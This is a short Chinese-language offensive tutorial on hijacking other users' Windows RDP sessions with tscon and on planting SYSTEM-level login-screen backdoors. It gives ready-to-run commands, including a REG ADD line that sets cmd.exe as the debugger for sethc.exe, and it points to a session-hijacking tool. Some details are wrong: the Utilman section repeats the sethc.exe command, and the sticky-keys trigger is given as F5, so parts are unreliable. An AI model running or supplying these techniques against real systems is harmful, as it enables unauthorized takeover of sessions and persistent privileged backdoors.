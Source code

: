 这里我们利用 Windows 自带的 Tscon.exe 程序来进行 RDP 劫持，Tscon.exe 可以使用户可以连接到系统上的其他远程桌面会话，或在不同的会话之间切换。

适用于：

```
Applies to: Windows Server (Semi-Annual Channel), Windows Server 2019, Windows Server 2016, Windows Server 2012 R2, Windows Server 2012
```

微软介绍：

```
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/dn283323(v=ws.11)
```

```
tscon {<SessionID> | <SessionName>} [/dest:<SessionName>] [/password:<pw> | /password:*] [/v]
```

实操：  

```
query user 查看所有已连接的RDP用户
```

然后连接到此会话

```
tscon 1#会话id
```

相关工具：https://github.com/bohops/SharpRDPHijack

minikatz 也可以作会话劫持

RDP 后门方法

**粘滞键**

该功能是操作系统内置的可访问性功能，并且可以进行预登录（在登录屏幕上，通过物理控制台或通过远程桌面）。

将 Sethc.exe（粘滞键）设置为生成 cmd.exe，那么 rdp 连接就会拥有一个 system 权限后门

1. 通过安全模式来更改（需要重启，不推荐）

2. 通过注册表来更改，或者手工去系统目录下去改名

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
```

然后进入 rdp 连接，连按几次 F5

**Utilman**

和粘滞键完全相同，只是使用了 trojan utilman.exe，在登录屏幕上，按 Windows 键 + U，您将获得一个 cmd.exe 窗口，权限为 SYSTEM。

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
```
